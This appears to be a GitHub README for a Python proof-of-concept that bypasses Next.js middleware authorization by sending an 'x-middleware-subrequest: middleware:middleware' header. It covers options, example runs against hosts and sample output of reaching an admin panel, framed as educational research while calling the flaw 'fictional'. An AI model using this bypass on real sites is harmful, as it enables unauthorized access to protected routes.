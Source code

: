 # PoC for Next.js Middleware Bypass (CVE-2025-29927)

[![Python Version](https://img.shields.io/badge/python-3.7%2B-blue.svg)](https://www.python.org/)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](LICENSE)
[![Status](https://img.shields.io/badge/status-active-brightgreen.svg)]()

This is a **proof-of-concept** for a **fictional** Next.js middleware bypass vulnerability (CVE-2025-29927). Use **only** for educational and authorized security research.

---

## 🚀 Features

| Feature             | Description                                                       |
| ------------------- | ----------------------------------------------------------------- |
| ✨ Color & Verbose   | Color-coded output; `-v` for detailed debug logs.                 |
| 📦 OOP Structure    | Class-based design for clarity and maintainability.               |
| 🌐 Proxy Support    | Route traffic through HTTP(S) proxies via `--proxy`.              |
| 🍪 Session Handling | Persistent `requests.Session` for cookies & connection reuse.     |
| 🚦 Redirect Control | No-follow-redirect by default; clearly detects pass vs. fail.     |
| 🛠 Custom Headers   | Override `User-Agent`, `x-middleware-subrequest`, or add headers. |

---

## ⚡ Installation

```bash
# Clone repository
git clone https://github.com/your-username/nextjs-middleware-poc.git
cd nextjs-middleware-poc

# (Optional) Create virtual environment
python3 -m venv .venv
source .venv/bin/activate

# Install dependencies
pip install -r requirements.txt
```

> **Requires** Python 3.7+

---

## 🎯 Usage

```bash
python poc.py [options] <host>[:port]
```

| Option                      | Description                                                               |
| --------------------------- | ------------------------------------------------------------------------- |
| `-p, --path PATH`           | Protected route path (default: `/admin`)                                  |
| `-s, --scheme {http,https}` | Protocol (default: `http`)                                                |
| `--header HEADER`           | `x-middleware-subrequest` header value (default: `middleware:middleware`) |
| `-ua, --user-agent AGENT`   | Custom `User-Agent` (default: `Mozilla/5.0`)                              |
| `--proxy PROXY`             | HTTP(S) proxy URL (e.g., `http://127.0.0.1:8080`)                         |
| `-v, --verbose`             | Enable debug output                                                       |
| `-h, --help`                | Show this help message                                                    |

---

## 🔍 Examples

### 1. Basic Test

```bash
python poc.py localhost:3000
```

### 2. HTTPS & Custom Path

```bash
python poc.py example.com -s https -p /dashboard
```

### 3. Proxy & Verbose

```bash
python poc.py internal-app:8080 --proxy http://127.0.0.1:8080 -v
```

---

## ✅ Expected Output

**Success**

```
[*] Target URL: http://localhost:3000/admin
[+] SUCCESS: Middleware bypassed — access granted!
--- Response Snippet ---
<!DOCTYPE html><html>…<title>Admin Panel</title>…
```

**Failure**

```
[*] Target URL: http://localhost:3000/admin
[-] FAIL: Access denied by middleware (302 Redirect)
```

---
